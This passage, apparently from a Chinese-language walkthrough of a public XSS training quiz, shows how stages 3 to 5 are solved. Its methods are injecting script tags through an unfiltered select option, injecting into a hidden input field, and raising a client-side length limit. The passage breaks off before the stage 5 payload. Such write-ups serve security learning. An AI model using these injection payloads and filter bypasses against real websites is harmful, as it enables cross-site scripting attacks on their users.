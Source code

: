 ```javascript
&#60;script&#62;alert(document.domain);&#60;/script&#62;
```

输入框发现使用特殊字符：`<>""/ \`都被过滤了。
打开源码，**不是审查元素**：

```html
<form action="?sid=83ba7c40f05160cdd42fec2bd6fd2f6d6ce5464f" method="post">
Search a place: <input type="text" name="p1" size="30">
<input type="submit" value="Search"> &nbsp;
Choose a country: <select name="p2">
<option>Japan</option>
<option>Germany</option>
<option>USA</option>
<option>United Kingdom</option>
</select><hr class="red">We couldn't find any places called <b>"&lt;&gt;"</b> in <b>Japan</b>.<hr class="red"></form>
```

可以看到特殊字符，被转译为`&lt;&gt;`等html字符。<br>
卡住，看到：解析说输入框不止这一个，随后发现，form表单中还有另一个需要提交的数据，select框的数据，可以通过console修改select中的数据，进而修改提交的数据。而select是没有被过滤的！

修改dom：

```javascript
document.forms[0].p2.childNodes[1].innerHtml = '<script>alert(document.domain);</script>'
```

发现innerHTML不能插入js，我需要js字符串，而不是代码，那么可以用innerText属性。

```javascript
document.forms[0].p2.childNodes[1].innerText = '<script>alert(document.domain);</script>'
```

这样，select的第一个选项已经被修改，接下来随便输入并提交，ok。

# 第四关
>http://xss-quiz.int21h.jp/stage_4.php?sid=95a179f3d0230ffe9a4d12c5b049ea1aa9d27242

此时，select和input均作了过滤，都不能进行注入，但是查看发现，有隐藏输入框，可以尝试注入。

```javascript
document.forms[0].p3.value = '"><script>alert(document.domain);</script>'
```
# 第五关

>http://xss-quiz.int21h.jp/stage--5.php?sid=d83cbbb5c8b5fc0b9bc4677c3a51287aa17b7adc

长度限制，发现限制了文本输入长度，但只在表面上做了限制。
	
```javascript
document.forms[0].p1.maxlength = 100
```

修改输入框输入内容长度限制。然后注入：
